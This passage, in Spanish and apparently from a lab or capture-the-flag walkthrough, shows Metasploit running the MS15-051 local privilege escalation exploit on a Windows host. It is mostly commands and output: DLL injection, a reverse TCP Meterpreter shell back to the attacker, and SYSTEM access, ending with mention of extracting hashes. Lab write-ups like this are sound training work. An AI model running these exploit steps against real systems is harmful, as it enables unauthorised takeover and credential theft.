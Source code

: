 ```bash
   Nombre      Configuración Actual  Requerido  Descripción
   ----        --------------------  --------  -----------
   EXITFUNC  thread           yes       Técnica de salida (Aceptado: '', seh, thread, process, none)
   LHOST     46.101.239.181   yes       La dirección de escucha (se puede especificar una interfaz)
   LPORT     4444             yes       El puerto de escucha
```

```lua
   Id  Nombre
   --  ----
   0   Windows x86
```

```plaintext
msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1
```

```makefile
session => 1
```

```plaintext
msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0
```

```makefile
LHOST => tun0
```

```plaintext
msf6 exploit(windows/local/ms15_051_client_copy_image) > run
```

```less
[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000
```

```plaintext
meterpreter > getuid
```

```arduino
Server username: NT AUTHORITY\SYSTEM
```

Desde aquí, podemos proceder a usar la gran cantidad de funcionalidades de Meterpreter. Por ejemplo, extraer hashes, suplantar cualquier proceso que deseemos, entre otros.
